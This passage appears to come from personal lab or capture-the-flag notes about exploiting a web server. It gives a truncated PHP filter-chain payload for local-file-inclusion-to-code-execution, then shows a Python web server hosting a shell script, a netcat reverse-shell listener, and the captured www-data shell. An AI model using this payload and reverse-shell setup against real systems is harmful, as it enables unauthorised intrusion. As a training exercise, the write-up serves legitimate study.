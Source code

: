```Linux
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-
```

We need to start a web [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) with [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) that hosts the shell script, and also start a listener for receiving the reverse connection using [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
└─$ sudo python3 -m http.server 80     
[sudo] password :
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
```

Now we insert the created chain in the url :

<img src="../../2%20-%20Resources/Others/Flameshots/a799d8f7be346af16bb877ab2ee69646.png" alt="a799d8f7be346af16bb877ab2ee69646.png" width="319" height="175" class="jop-noMdConv">

Now we should have the shell :

![4dfea39a25ea544b498ad7d1e0e8cf1d.png](../../2%20-%20Resources/Others/Flameshots/4dfea39a25ea544b498ad7d1e0e8cf1d.png)

```
www-data@ip-10-10-8-70:/var/www/html$ whoami
whoami
www-data
www-data@ip-10-10-8-70:/var/www/html$ ls
ls
adminpanel.css
images
index.html
login.css
login.php
messages.html
orders.html
secret-script.php
```